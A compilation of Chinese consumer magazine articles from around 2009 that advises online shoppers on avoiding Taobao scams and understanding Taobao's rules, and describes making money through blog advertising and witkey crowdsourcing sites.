知道网购存在着‘忽悠’现象后，就需要根据情况采取相应的策略，来避免被‘忽悠’，下面我们就来看看网购的反‘忽悠’攻略。

### 1 选择信誉度较好的购物网站和店铺

网购店铺的信誉度原则上是由买家评出的，对于我们来说具有很高的参考价值，我们可以根据网购店铺的信誉度来选择。另外，购物网站的好坏也是我们需要注意的。信誉度高的购物网站，拥有完善的管理措施和监督规则，如果产生纠纷解决的效率和结果也会比较好。所以，在网购过程中，我们应该选取信誉度高的较为成熟的购物网站和店铺。

会员积累信用
卖家信用：3083
买家信用：116
卖家好评率：99.74%
买家好评率：100.0%
店铺动态评分
宝贝与描述相符：4.6
卖家的服务态度：4.6
卖家发货的速度：4.7
认证：

每个购物网站都有自己的一套信誉评价机制，以淘宝为例，卖家获得来自买家的好评就会加分，中评不加不减，差评则会减分。另外，还有针对宝贝相符程度、卖家服务态度、卖家发货速度的信息评价。这些评价都显示在商品信息右侧的店铺信息中（见图1），我们可以点击进行查阅。

另外，在交易结束后，买家不但需要对卖家服务和产品进行评价，有时候还会有留言，别看这些短短的评语，对你的帮助还是很大的，我们可以从中了解到产品信息的准确程度。如，我们都知道网购经常会存在色差，那么到底差多少，我们就可以从购买者的评语中了解。

> 评价方未及时做出评价，系统默认好评！[2009.04.25 19:14:25]
兄弟啊，还是有声音的哦……我这边耳机，有声音 [2009.04.24 22:09:18]
等了一周\~\~\~
超喜欢\~\~\~
实物卖像不错\~\~\~ [2009.04.24 21:14:03]
不错的卖家，发货及时。 [2009.04.23 22:58:11]

单击宝贝下方选项卡中的‘评价详情’，我们可以看到买家针对每一个产品的详细评价，这些信息都可以帮助我们防止被忽悠（见图2）。

### 2 坚持采用‘第三方支付’

在付款方式上，目前大多数网购店都不支持货到付款（支持的相应的费用也会比较高），因此相对于银行账户转账来说，‘第三方支付’就安全多了，并且可操作度也高。正因如此，‘第三方支付’是网购中采用最多的支付方式。

目前，很多网站都支持‘第三方支付’，如淘宝的支付宝、拍拍的财付通，使用起来都比较方便，你只需要具有一个具备电子银行功能的网银卡，然后进行相关申请，成为会员，就可以使用了，操作界面也很简单。

即使采用‘第三方支付’，仍存在很多问题。就付款步骤来说，一般的过程是，买家拍下产品后（如需改价则等待改价结束后），单击‘付款’，这时钱是付给‘第三方’，然后等待发货，货到之后，单击‘确认支付’，钱就会从‘第三方’转给卖家。这之间存在一个付款时间的限制，如果你付款给‘第三方’后，没有在规定时间确认或投诉，‘第三方’就会将款自动打给卖家。所以在付款的时候就要注意了，一方面注意不要被不明人士诱导提前付款，另外就是最好选择快递方式，这样即使你需要换货或调货，也可以在规定的时间内结束。

### 3 对小‘便宜’说‘NO’

在网上购物的时候，我们总会遇到各式各样让人怦然心动的‘便宜’，包括各种充满诱惑的广告，还有各种中奖通知，大家可不敢脑子一热就跳进坑里了。这时候我们一定要了解，没有那么多‘天上掉馅饼’的好事，不论是在现实生活中，还是网上，产品都是‘一分价格一分货’，没有那么多‘便宜’可以占的。

对于网上的广告，我们一定要首先本着怀疑态度，可以通过上面第一条介绍的方法进行相关信息的认证。即使大家都评价不错，也要知道‘一分价格一分货’，提前做好心理准备，不要把东西想得太好了，免得到时候会失望。对于网上的中奖通知，则要本着相信他们多数都是‘骗人’的前提，特别是那些要你提供账户什么信息的，一定不能相信。个人认为网上的那些中奖通知都是‘骗人’的，每次看到我都会毫不犹豫地关掉。

### 4 要与卖家谈好

即使上述都OK，我们也还要亲自与卖家交涉过后才能正式进入购买流程。交涉过程中主要需要确定产品信息，最好要卖家提供详细的数据信息，再对比自己的实际需要，建议安装阿里旺旺，这样聊天记录就会保存下来，也是可以作为纠纷时的证据的。笔者就遇到过事后产品信息不符，卖家要求提供当时交涉信息的情况，幸好当时我有保存，才给我换货。所以保存对话信息也很重要。

另外，也不要光听卖家说，一定要自己考虑。比如说衣服，你将自己的体型数据告诉卖家，他们说没问题肯定能穿。然后，等寄过来，发现确实能穿，但是却是紧紧贴在身上的，这样也不好看啊！所以，在购买构成中一定要坚定立场，自己考虑。还有，交涉过程中要谈好如果出现质量问题要怎么负责，什么范围内负责。对于电器什么的，还要谈好售后问题。

## 网购中常见的‘忽悠’手段

网络购物最害怕的就是遭遇‘忽悠’，这些JS的手段各式各样，有时候让人防不胜防，而我们就要做到‘知己知彼’，方能‘百战不殆’。熟悉网购中的常见‘忽悠’手段，在遇到的时候我们才能提高警惕，避免轻易上当。

### 1 信息不符

对于网购店铺提供的数据信息要仔细分辨，特别是店铺的相关信息和产品的相关信息，这两者直接关系到你能否购买到放心的产品，能否享受到合理的质量较高的服务。

首先，看店铺信息是否真实。有些店铺会卖一些售价较低的充值卡类商品，当信誉达到一定程度时进行转型。这时候就要注意，店铺现在所拥有的等级并不是经营现有产品获取的，所以对于产品的评价并不能够全信。有些店铺的信誉甚至是采取不正当手段获得的。

其次，产品信息不符。网购店铺为将产品销售出去，对图片和信息经过一定程度‘修饰’（见图），吸引买家购买。但在真实性上就让人质疑了。特别是颜色，实物和网上图片会存在一定色差，有时候色差还会比较大，店家则说存在色差是正常的，在购买的时候一定要注意。


### 2 促销获奖信息

当我们打开通信工具和邮箱的时候，经常会看到很多来自网店的促销信息，特别是如果你使用阿里旺旺，会时不时地收到促销信息，以及‘恭喜您，获得……’的通知。这时候你的头脑就要保持冷静了，千万不敢冲动，要知道‘便宜’是没有那么好占的。

很多店铺的促销是有各式各样的限制条件，比如说购买达到一定额度才能享受优惠。有些甚至是捆绑销售，将质量不好或者存在一定缺陷的商品搭配销售。这时候买家就需要睁大眼睛了。但不是所有促销手段都是骗人的，大多数还都是商家的一种优惠活动。

至于获奖，则绝大多数都是骗人的，不可以轻易相信。有些是为了让你点击其店铺，提升点击率和购买率，有些则是要你提供相应信息，或者采取一定购买行为。对于获奖信息，买家一定要多多斟酌。

### 3 支付方式

目前的网络购物常见的支付方式主要有三种：银行转账、货到付款和‘第三方支付’。其中安全度最高的当属货到付款，但大多数网购店和快递公司都不支持货到付款；安全度最低的应该是银行转账了，大多数采用银行转账的卖家都是收到转账的钱才开始发货，那么如果店主不发货我们也没有任何办法了。‘第三方支付’则是一种安全度和使用率都很高的支付方式，先将钱支付给‘第三方’，当收到货之后再确认付款，由‘第三方’将钱打给卖家，很多网店都会才用这种支付方式。但是，即使是‘第三方支付’，仍然存在着不安全因素，以支付宝和淘宝为例，当我们购买了一件商品，通过支付宝付款成功（实际上将钱打给了支付宝），这时候支付宝就开始记时了，如果在规定时间你没有确认，支付宝会默认你已经收到货了，钱就会被打入卖家账户中。很多JS就利用这点，将钱‘自动’划入账户之中。

## 网店搬家为那般？

### 店铺自身的发展需要

这个原因其实是很好理解的。网上交易，即在网络这个公共载体上发布商品信息，接受各地买家询价，买卖双方达成协议后，买家付款，卖家发货。买卖双方在交易过程中不需现实接触。网店，在这个过程中最重要的是起到商品展示和接受订单的作用。因此从发展角度考虑，只要店主有精力，在不同网站上设置多家店铺，扩大商品影响范围，实则是一种资源共享的好举措。这样看来，各网店的‘搬家’只不过是设置分店而已，毕竟发展才是硬道理啊。

### 淘宝新规惹的祸

自今年4月10日开始，淘宝推出了B2C新平台，一向以免费著称的淘宝网开始启动收费业务，比如：空间使用费、信息发布费、技术服务费等和淘宝商城的建立。这样一来就意味着以前的免费店铺在改革后竞争力明显的处于了劣势，缴费吧，成本开支太大了；不缴费吧，好的展示位置上将再也不会有它们活动的身影。于是，很多淘宝上规模较小的店家只好无奈地选择剩下的免费购物网，于是也就有了以上出现的‘网店大搬家’。

### 网上交易法将出台

国家商务部计划于今年6月出台《网上商业数据保护办法》，从此网上交易有了自己的相关法规，这使有关于电子商务征税的问题也成为了各网店店主光注的焦点。此法一颁布，开店资格规范化，门槛自然也会相应地提高，再加上税收制度的介入。现在这种仅凭身份证就能轻松开店的时代将彻底退出历史的舞台。现在网络上有不少店铺都采用了合并的方式，积极地应对新法规的出台。因此，大规模的网店大搬家也成为了网络一大亮点。

## 如何‘淘’到好宝贝

网络购物正如大家搜索信息一样，好东西都是要‘淘’出来的，如何‘淘’呢？下面是几点小建议。

### 1 良好的心理

网络购物作为一种新的购物形式，各方面都与原来传统购物方式不同，比如交易过程、物流过程、信息提供方式等等，所以我们要做好心理准备，能够接受这种新的购物方式。
另一方面，网络购物由于消除了时间空间的限制，特别可以优化物资配置，也就是可以跨地区，使我们‘淘’到比现实生活中更优惠的产品，但是还需知道‘一分价钱一分货’，不要抱着占大‘便宜’的心理来参与网购。
网购前的心理建设还是很重要的，只有这样才能‘淘’到好宝贝。

### 2 购买过程需警惕

网络购物虽然发展很快，但毕竟是一个新兴事物，发展还不是很成熟，特别是缺乏系统有序的管制，所以存在着各式各样的陷阱，网络购物中我们一定要提高警惕，睁大眼睛仔细分辨，在购买过程中一定要多一个心眼。包括商家信息、产品信息、服务信息，都要一一确认，不可以掉以轻心。前面我们也介绍了很多防‘忽悠’的方法，希望能够对大家，特别是网购新手，提供有用的帮助信息。但不论采取怎样的方法，保持一颗时刻警惕的心是很重要的。

### 3 熟悉维权方法

除上述外，网络维权也不可忽视，现在比较大型的购物网站都有很多维权渠道（如淘宝网、拍拍网），如信誉评价机制、投诉机制（见图）、监督机制等等，我们要学会使用这些维权方法来保护自己的合法权益。特别要注意的是，我们在网购之前一定要熟悉这些维权方法，千万不敢问题出现了，才想起来找解决方法，有时候会过了最佳处理时间，就得不偿失了。
网络购物看似简单，但其中也是有很多门道的，而网购中JS层出不穷的招式，也让我们防不胜防，这里介绍的只是其中的一部分。我们只有提高警惕，以不变应万变，方能‘淘’到好东西，开心购物。



## 信誉度高就一定好吗？

在淘宝网购物的时候，我们都知道信用度是衡量卖家的一个重要指标，很多买家都以此来判断店铺的质量，从而决定是否购买。但是关于信誉度，关于可信度，小编在这里还有一些不得不说的话。

### 提防信用度‘作弊’

信誉度对于网店的重要意义，很多人都知道，但知道的不仅仅是买家，卖家也同样发现了，于是很多卖家就以一些‘非常规’方式获取高信誉度，这就是信誉度‘作弊’，常见的方式主要有以下。

+   方式一：利用小额交易，如销售充值卡等，提高自己的信用度，然后突然改售大额物品。
方式二：虚假购买。主要通过后台操作来‘刷’信誉度，表现比较明显，主要是卖家信用记录页面多次出现同一买家，且所购物品在物品本身和购买时间上都不太合理。

这时你还能说信誉度高的卖家可靠吗？很多时候仅从表面查看卖家信用度的话是无法辨别真伪的，不过我们也并不是没有办法。只要我们认真观察其信用记录，包括交易物品的价值、卖家的信用度、评价时间、信用记录评价等，还是能够发现蛛丝马迹的。

### 不要迷信大卖家

排除信誉度‘作弊’的嫌疑来看，我们也不能说大卖家就一定好。虽然说很多买家朋友们常常会觉得那些级别高的店铺去购物心里比较踏实，一方面货齐全，另一方面信誉度高。但是大卖家也存在一些小问题。同样的东西大卖家就会贵一些，而且由于顾客比较多所以服务可能不是很到位，甚至有时候根本没有时间通过旺旺跟你交流。而一些新店，由于需要招揽人气，东西基本都是保本卖，价格实惠，另外为了增加人气在服务上也会比较好。
总之，在淘宝购物，以及其他网购中，买家一定要睁大双眼，仔细分辨，特别是对于信誉度，不要只看表面的等级和评分，一定要看它们是怎么来的。



科学技术的迅速发展和网络的不断普及，给我们的生活带来了巨大的变革，除了娱乐、聊天、游戏，网络还带给我们无限商机。IT时代，一种新型的赚钱模式应运而生，那就是——网络赚钱，利用网络进行信息沟通交流，足不出户便可获得丰厚的报酬。这是一种多么令人羡慕的生活模式啊！尤其是在遭受全球性经济危机的当前，企业不景气，失业率和就业率的比值不断拉大，利用网络来赚一点外快，补贴家用实在是一个不错的选择。网络的无限性决定了网络赚钱的无限可能性，各种网赚方式层出不穷，开网店、做斑竹、接任务、做枪手……各种领域的人才都可以在网络上找到用武之地。下面小编就为大家简单介绍一些网络赚钱的方式。

文/TMG cwn

## # 百变博客赚钱模式分类看

博客赚钱在国外很流行，也确实可以实现一定的收入，但在中国却很难达到国外的那种程度。首先是网络氛围不好，尽管中国网民上亿，博客流行指数居高不下，但博客地位和大量网民的素质始终不高。不过在个人博客上投放广告多少还是可以赚点小钱，尤其作为一份兼职，用以补贴零用还是不错的选择。目前国内博客赚钱方式虽然无法与国外相比，但还是可以用“花样百变”一词来形容。

1.  点击广告，例如AdSense
点击广告是目前流行度最高的博客赚钱方式，以较低的单价获得较高的广告相关度实在是一个颇受商家欢迎和博主爱戴的来钱方式。在博客的网页上显示一系列与某一网页内容相关的链接，用户点击链接后，便进入一个相关广告的网页。费用根据点击率来确定，点击率越高，博主收到的广告费用也就越高。在具体操作中，博主要注意选择合适的、有信用的广告商，否则在虚拟的网络中收取报酬也显得力不从心。
基于上述这一点，Google AdSense——在博客页面上显示google关键词广告，点击链接就进入google搜索和相关的google广告——受到众多博主的青睐，毕竟作为全球最大的搜索引擎网站和无形资产排名可与可口可乐相匹敌的google，用户根本不必担心商家是否会拖欠酬劳。当博客到达一定的访问量，均可以免费申请加入Google AdSense，填写一些账户资料，等待审核即可。最后google根据博客网页上的广告点击次数，向博主支付酬劳。

2.  产品评论，俗称软文
软文广告，在博客发表关于产品介绍、评论的宣传性、阐释性文章，具有很好的广告效果。它可以让广告受众阅读软文时，不知不觉地接受广告信息，而且对广告的怀疑程度也相对较低，提升企业形象，激发潜在消费者，当年风靡全国的脑白金就是借了软文广告的东风。与广告效果相对应，软文广告的价格通常较高，可以达到100元。这对博主来说，用一千字左右的文章换一百人民币也算是一笔划算的交易。但是，如果经常写软文，会降低博客的质量，那么对应的，博客的浏览者也会减少，点击率下降，企业也就不会再往这里投钱了。所以软文广告要适量而行，否则得不偿失。

3.  展示广告
展示广告，在博客页面上放置商品广告。针对流量大、点击率高的博客投放，广告价格和博客点击率成正比。网友进入博客，在网友浏览的页面弹出广告窗口。以每千次展示费用为单位计算广告费用，如果有网友进入博客页面，并且点击了该广告，广告商还要支付一笔额外的费用。不过针对流量的作弊非常容易，还有不少的虚假点击，所以这类型的广告在博客中还不是很多。

4.  出售链接
如果一个博客的pagerank较高的话，也就是说博客的点击率高、人气高，博主可以考虑出售链接，为商家提供商品广告链接。这种低成本、高收入的赚钱方式值得考虑，不过同时也伴随着高风险，一旦google发现这种出售付费链接的行为，博主的pagerank就可能要面对清零或降权的危险。

5.  按行动付费广告
博主在博客页面上放置广告链接，只要浏览者点击了这个广告的链接，并且采取了一系列广告主所期望的行动，例如成功注册成为会员，那么博主就可以获得收入。这种方式具有相对可观的单价，不过在短期内要取得这样的收入，还是有一定困难的，毕竟要让浏览者采取这一系列行动实非易事。

除了上述的5种博客赚钱模式，还有像联署广告、插件等方式。用户可以在众多的赚钱方式中选择一种或几种作为自己的主营方式，但一定要注意广告最好与博客的内容、性质相符合，这样既不会造成浏览者的反感，也可能会使广告效果事半功倍。

## # 博客运营必杀技

要利用博客赚钱，首先就要提升博客的点击率，才会让广告商自动将银子送上门来。博客的质量就尤为重要，下面我们就来探讨一下如何建设、经营一个会来钱的“金博客”的必杀技。

首先，精准定位自己的博客。根据自己的专攻术业定位自己的博客，IT、金融、美食、旅游、摄影、文学、音乐、汽车等，博客的浏览人群也有了一定位。那么可以针对性地选择广告，使该广告的目标受众群和博客的浏览人群最大程度的一致，广告的效果也会有很大的提升。

其次，选择一个个性强、易记、有特色的博客名，对博客进行适当的装饰。名字就是门面，是吸引人的第一步。博客的名字就如新闻的标题一样，有特点的标题吸引人阅读具体的新闻内容，特别的博客名也就吸引网友点击进入你的博客，发现你的博客。特别的博客面板、内容设置也是门面，合理的版面设置，可以减少阅读疲劳。如果文章再好、内容再有魅力，没有好听、好看的门面，如何让第一次看到的人有点击进入的冲动？

再者，用心经营博客。博客不只是写的，而是需要用心经营、呵护的。包装文章标题，易记、易流传、新颖，选用疑问式、标点符号等吸引眼球的形式，不宜过长，点出重点；选取社会热点话题，以新颖的视角剖析，增加它的魅力值，时常更新文章，保持它的新鲜度；文章中尽量多地使用热门词汇作为文章标签，便于搜索；除了博客日志，可以在博客上放置一些抓人眼球的原创图片，或搞笑幽默，或者神奇美妙；多做推广工作，增加知名度，可以直接向身边的朋友、同学推介，也可以更改QQ个性签名，或者在论坛发帖、QQ空间留言使用自己的博客网址做为签名；活跃博客圈，多逛别人的博客，并且积极地发表评论、留言。

最后，遵守网络道德。博主应当具备一定的网络素养，不应该一味追求博客点击率，而放置一些不健康的、虚假的图片、视频等；诚信，不制造虚假点击，否则自己的账号会有被封的危险。

## # 解析威客运营模式

威客模式网站上的运营模式主要分为两种：B型威客模式（Bid Witkey）——提问者提出问题或者发布任务，众多回答者都可以提出答案，提问者从中选择最满意的，得到认可后的回答者就可以获得虚拟金币或者实质的报酬；C型威客模式——威客模式网站集合了各种回答者的特长信息，网站平台完全由威客自主经营、销售、推广，提问者借此可以直接找到适合的回答者，在得到合适的解决方案或者答案之后，按约定向回答者提供报酬。威客网上关于现金支付的原则是“全额付款，永不退款，网站扣20%”，所有的竞标项目都是客户，即发布任务者定价，“就算是只有1块钱的业务也可以”。拥有相当大的自主权。

现金悬赏任务流程是目前威客模式中最主要的一种运营流程，悬赏现金包括在百度知道吧、雅虎知识堂中的虚拟现金、积分，也包括猪八戒威客网上的实质现金。个人或者企业在威客网上发布任务，公布任务期限和悬赏金额，任务小到有帮忙注册邮箱，大到管理咨询、产品设计，应有尽有。同时，任务发布者要将悬赏的金额全部预付给威客网站。威客族共同参与任务，将自己的作品上传给网站，经过任务发布者挑选，从中选择最佳的一名威客，这名中标的威客通过网上银行、任务宝等方式获取报酬，赏金根据任务的难度从数十元到上万元不等。从2000年开始，一些威客模式网站开始了另一条威客运营流程——招标人物流程。个人或企业发布任务，公布任务期限和悬赏金额，同时预先支付小额的现金或者暂时不支付现金给网站。威客们参与任务，在经过威客网站的确认后，高水平的威客可以最终报名参加。任务发布者根据已有的资料，从经网站确认的威客中选择合适的参与工作。在工作过程中，双方沟通联系，根据工作的进度，由威客网站或者任务发布者直接向威客支付酬劳。这种流程模式适用于金额较大、难度高的科学技术领域，对威客是一个不小的挑战，同时也需要选择信用度高、制度管理完善的威客网站进行作业。

在前两种威客运营流程模式中，威客都要自己搜寻人物，同时也在很大程度地倚赖网站这个中间媒介，而威客地图就给了广大威客一个更大的施展平台，可以让客户自己找上门来。通过互联网将人的地理位置、专长、联系方式、威客空间联合在一起的搜索引擎，客户可以通过该搜索引擎，找到合适的人选。首先，威客在威客网站上开设一个威客空间，放上体现自己知识、智慧、技能的作品，供任务发布者参考；任务发布的人或企业通过关键词搜索查到合适的威客，根据上面留下的E-mail、电话、QQ等联系方式，进行沟通、交流，或者直接见面，确定是否合作；完成任务后双方在威客模式网站上进行相互的评价，信用度可以供其他用户参考。

# 小博来钱指南针

尽管博客赚钱的方式丰富多样，但从操作方法上来讲是殊途同归的，一个能够熟练运用Internet的网民就可以完成基本操作。以申请人气指数最高的Google AdSense为例。

- （1）直接打开Google Adsense的官方网址：https://www.google.com/adsense/login/zh_CN，在页面中单击“立即注册”，免费注册一个AdSense账号。
- （2）在跳转的网页中填写一些基本的资料信息。网站网址填写成你的博客地址，在下拉列表框中选择语言；根据提示，填写个人信息和联系方式（见图1）；最后单击“提交信息”。
- （3）信息提交成功后，等待Google AdSense小组审核通过来信。大概两天以后，就会收到Google AdSense发来是否通过申请审核的邮件。如果通过审核，邮件里还包括一些操作步骤等信息，启用账户、粘贴代码到网页、查看结果和一些注意事项；如果没有通过审核，邮件中会详细说明原因，用户可以在进行相关的信息修改后，重新申请注册。
- （4）登录Google后台，进入“AdSense设置”栏目，选择要添加到网页的产品，将生成的代码粘贴到自己的博客网页上即可，操作很简单。接下来博主只需要安心写博客，充实博客内容。只要产生合法点击，1个小时后，Google后台就会显示博主的收入。两个月后，收到现实的美元支票（见图2）。





这是最基本的操作方法，如何做到真正有钱自博客中来，还是需要博主用心做博客，活跃于博客圈，吸引更多的网友。广告数量不宜过多，毕竟网友进你的博客不是为了看广告，过多的广告影响阅读体验。选择合适广告商品，例如网上流行的QQ靓号、某某医院的广告放在博客中并不是很贴切。应当了解自己的博客浏览者的类型，针对性地选择商品广告，这样才能创造可观的收入。另外，在保证利益的同时，广告放置的位置应该建立在不影响正常阅读的基础上（见图3）。



# 威客知多少

作为互联网的一个新兴模式，关于威客模式的管理法规总有一定的滞后性，所以在实际运营中存在很多问题，最为突出的是知识产权、用户作弊等问题。在威客网站上，用户的资料都是相当详尽的，威客之间可以相互浏览彼此的个人空间，智力成果在大众中间展示之后，就失去了原本的价值，而要得到客户的信任，就必须要在空间上传作品。这就很难避免个人的智力劳动成果被他人盗窃。

还有一种更令威客族郁闷的是，悬赏人盗窃竞标者的方案。首先悬赏者在网站上发布任务，威客族纷纷参与竞标，上传作品；任务发布者自己再重新注册一个新用户名，模仿其他竞标的威客作品，或者综合他们的可取之处，同时参与竞标；悬赏人选定与自己重新注册的威客进行交易。最后投入实际操作的方案，事实上是众多威客辛勤劳动的成果。这样的知识产权盗窃还没有相关的法规，也很难界定，网站管理者的手段也很难有效制止类似事件，最主要依靠用户的诚信。这就需要威客们首先选择管理完善的威客网站，参与信用度高的客户竞标；留心看威客网站中的相关帖子和信用排名，了解“榜上有名”的用户信息，避免与信用不好的合作。

任务发布者拥有任务的标价的完全主动权，没有一定的物价标准做参照，客户对于求得问题答案而愿意付出赏金却不高。买方占主导地位的市场上，威客族处于被动的地位，智力成果无法得到相应的报酬。由于威客出售的是智力产品，可以重复多次消费，加之威客模式在知识产权的收益和所属权上没有明确的规定，很容易出现知识产权纠纷。在客户遵守信用的同时，威客自身也应当有良好的修养，在第一次交易之后，智力产品的知识产权归客户所有，不可再进行二次销售。

# 有事您说话！——威客网领任务赚钱

# 闲话威客

继黑客、博客、播客之后，互联网又多了一个新角色——威客，英文译为Witkey是智慧（wit）和钥匙（key）的组合，它所代表的就是在互联网上将智慧当做钥匙的人。简单地说，威客模式是一种智力问答的知识价值化过程，利用自己的知识、技能、经验等专长，通过互联网帮助别人解决问题，从而获得相应的报酬的一种模式。

目前，威客的表现形式主要有两种，一类是提问者悬赏，回答者提供答案，由提问者选择，录用的回答者获得虚拟的赏金，例如百度知道吧、天涯问答、搜搜等；另一类是由个人或企业发布任务，需要威客进行智力创作，竞标成功者获得由任务发布者提供的实际金额，例如威客管家、威客中国、中国智慧交易威客网等网站。这种通过出卖自己的无形资产获取有形报酬的方式适用于各种各样的社会人群，不同阶层、不同行业的人总能在威客网上找到任务（见图1）。

威客是一个门槛很低的赚钱方式，面向人群极广，加之互联网的特殊性质，威客模式真正做到全民参与，只要会上网、会使用Internet搜索信息，就可以参与威客任务。企业在威客模式网站上发布的任务主要是以设计、广告营销等类别为主，从事广告行业者的不少创意都很难得到现实客户的认可，而广告公司中大量的弹性时间因被闲置感到浪费，甚至有点盲目，威客模式的出现就给了这些创意的用武之地。已经从事工作，或者是在校生、失业者都可以利用闲置的时间，逛逛威客网，施展自己的技能、智慧，获得一份额外的收入。哪怕是一个简单的想法，只要有需求的市场，都可以变成白花花的银子。



# 现在就来当威客

经过上述威客的描述，相信不少人已经对它有跃跃欲试之心，下面就来讲讲如何做一个威客，从注册成为普通用户，到威客高手，甚至专职威客。首先选择一个信用度高、管理完善的威客模式网站，注册成为他们的会员，例如 http://www.vikecn.com/。当然这并没有数量的限制，用户可以多注册几个威客网站，扩大选择范围。在网站首页会有会员登录的区域，单击上面的注册按钮。弹出一个会员注册页面，根据提示，填写一些必要的信息和联系邮箱即可（见图2）。注册申请表提交成功后，就已经成为威客中国的会员，可以在威客中国网上参与项目或者是发布项目。在会员管理中心可以完善信息，上传满意的作品，尽可能地把自己的页面装饰得内容详实、吸引人，但一定要确保真实性。成为威客之后，就可以在网站上寻找合适的项目，参与竞标，完成交易，获得报酬、积分，提高人气和信用度。



威客虽然是一个面向大众的低门槛职业，但要成为一个出色的威客，他所要具备的素质和承受的压力不是一般的威客所拥有的。首先是需要具备一定的专业素质，其次是心态，以一个良好的心态面对高手如云、纷繁复杂的威客世界。虽然需要摆正自己的位置，理解强中自有强中手的道理，但绝对不可以藐视自己的实力。在这个没有硝烟的战场上，在不容易知彼的条件下，就需要客观、深刻的知己。在具备首要的素质后，自信便是我们制胜的利器。有时自己辛勤劳动的成果却没有中标，中标的威客似乎也没有什么多少能耐、作品还不如自己的、那个客户是什么鉴赏水平……在不停抱怨对手和客户的时候，是否也应该认真分析一下其成功和自己失利的原因。中标率并不是衡量威客是否具有出色能力的指标，摔倒了，拍拍灰尘再起来前进。屡败屡战才是最高的境界，磨不灭的斗志才是练就威客高手的必杀绝技。或许你不是最强的，但你坚持下来了，你便是成功的，因为在竞标中不断地成长才是最大的财富。

事实上，一个真正出色的威客同样也是一个出色的谈判专家。他们十分善于与人沟通，能够用确切而生动的词汇表达出内心的想法，这也就是与客户沟通的优势。从威客的运营流程模式中，我们可以看出，真正的大项目寻找威客并不是直接简单地将任务发布在威客网上，等待威客参与，而是通过任务招标、威客地图等主动搜寻威客高手，双方进行沟通，洽谈之后确定。不管是面谈还是通过E-mail、QQ交流，都需要威客有很好的表达沟通能力，才能让客户了解你自己和你的作品。一个不善于表达的人即使有很好的想法，也无法得到客户的肯定。

自由不等于懒惰，收入与付出是相对应的。自由的威客职业并不意味着可以不劳而获，坐收渔翁之利。威客不是致富的法宝，也不是什么神话，只有经过努力地劳动付出，才有相应的劳动成果。不论任务大小，只要是承接下来，就应当全力以赴，拿出你的热情、发挥你的创造力、付出你的诚信，以最佳的状态投入到创作中。

# 不可忽视的淘宝规则

文/TMG lx

网络购物，对于现代人的生活来说，已经成为其消费方式的一种，而淘宝作为最主要网购平台中，无论是市场份额，还是会员人数，都是相当可观的。对于现在上网购物的人们来说，提起淘宝网的大名，几乎是无人不晓的，使用淘宝来购买东西，对于我们来说几乎已经是驾轻就熟了。然而，又有几个人知道淘宝规则呢？

这些被我们忽视的小小规则，规范着淘宝网中各方的行为。其实，我们早已经在其规范范围内活动，但却从来没有注意过，也许只有当我们触及违规事件时，蓦然回首才发现这些我们所忽视的淘宝规则，但那时就有些晚了。为了更好地使用淘宝工具，熟悉这些规则是必须的。下面我们就来一起了解一下淘宝规则有哪些。

### 与大家都相关的规则

#### 1. 会员规则

成为淘宝会员，有些规则是必须遵守的。在我们申请淘宝会员的时候，就要求用户必须同意“淘宝服务协议”相关条目，才可以申请成功。而这个“淘宝服务协议”主要涉及用户使用淘宝网需要遵循的规则、淘宝网的性质及用户申请条件、用户的权利与义务、淘宝的权利与义务、服务的范围与中断、终止服务条件等（见图1），该协议具有法律效力，相当于合同。



此外，淘宝还规定了会员注册、修改资料、找回密码等，以及隐私权政策，这些都在淘宝的“网站基础规则”中详细规定了。

这些都是作为淘宝会员必须遵循的规则。

### 2. 交易规则

如果涉及网络购物交易，还有相应的交易规则。

对于任何一个参与交易的淘宝会员，不论是卖家还是买家都必须遵循相应的“交易流程规则”，按照规则所规定的交易过程进行，包括发布商品、出价购买、付款至支付宝、卖家发货、买家收到货物、卖家收到货款等相关规则。

另外，还有针对于淘宝评价体系的“淘宝网评价规则”，以及发生争议时候的“交易争议补充规则”。这些都是涉及交易过程中相关环节的买卖双方都需要遵循的规则。

### 3. 处罚规则

淘宝会员需要遵守相应的规则，如果违反则会有相应的处罚。“个人信息泄露的处罚规则”和“垃圾信息发送的处罚规则”就做出了明确规定。

### 4. 工具使用规则

我们在使用淘宝过程中会涉及到相关的工具，主要是支付宝和阿里旺旺，对于这两个工具来说，也有其自己的规则，如同成为淘宝会员的要求一样，用户必须同意遵守相关规定才可以使用，包括“支付宝实名认证”、“支付宝与淘宝账户的绑定”、“阿里旺旺使用规则”。

### 5. 社区规则

淘宝网带有自己的社区，用户可以自由进行讨论，但不论是讨论的内容还是社区会员资料及等级都有一套完善的规则，包括“社区发帖规则”、“社区会员等级规则”、“社区银币规则”、“社区荣誉会员规则”、“商盟管理规则”（见图2）。

# 与卖家相关的规则

作为淘宝买家，与现实生活中的商家一样，也需要遵循“市场规范”，包括应该如何发布商品，交易过程中的要求，以及违规的处罚规则。

### 1. 商品发布规则

淘宝的商品有很多种类，其发布必须遵循“商品发布管理规则”、“发布商品的条件”，对于特殊商品，如闲置商品、拍卖商品和代购商品，需要遵循“闲置商品发布规则”、“淘宝拍卖规则”、“发布代购商品规则”，另外还有“自动发货规则”。

### 2. 交易规则

对于交易过程中的某些环节还有特殊规定，如“橱窗位规则”、“店铺名及店铺其他信息的规定”、“店铺状态规则”、“推荐物流使用规则”。

### 3. 处罚规则

对于炒作信誉度和违规商品有相应的处罚规定，“炒作信用度处罚规则”和“违规商品发布处罚规则”。

# 与买家相关的规则——维权规则

对于买家来说，最重要的就是快乐购物，但是网络购物中的侵权行为经常发生，所以掌握好维权措施是十分重要的，涉及的规则主要是“投诉规则”和“举报规则”。

# 特殊服务规则

除了上述的这些重要规则外，淘宝还对所提供的特殊服务进行了规定，制定相应规则。

### 1. 淘宝商城电子机票购买协议

通过淘宝网我们还可以订机票，“淘宝商城电子机票购买协议”就是涉及这项服务的特殊规则，需要订机票的买家还需要对此进行相应的了解。

### 2. 消费者保障服务协议

“消费者保障服务”是淘宝网的特色服务之一，其中包括很多内容，针对各项不同内容都有相应的服务规则，包括“消费者保障服务之‘7天无理由退换货’服务规则”、“消费者保障服务之‘假一赔三’服务规则”、“消费者保障服务之‘商品如实描述’服务规则”、“消费者保障服务之‘虚拟物品闪电发货’服务规则”、“消费者保障服务之数码与家电30天维修服务规则”、“消费者保障服务之卖家管理与处罚清退规则”（见图3）。这不仅仅卖家需要了解，买家更需要熟悉。

### 3. 其他特色服务

除此之外，淘宝还有很多其他特殊服务及相应的规则。

- 淘宝抵价券促销活动规则
- 淘宝网全球购服务规则
- 爱心捐赠规则
- 淘宝VIP卡服务规则
- 淘宝站供应商管理规则

| 规则名称 |
| --- |
| 消费者保障服务之“7天无理由退换货”服务规则 |
| 消费者保障服务之“假一赔三”服务规则 |
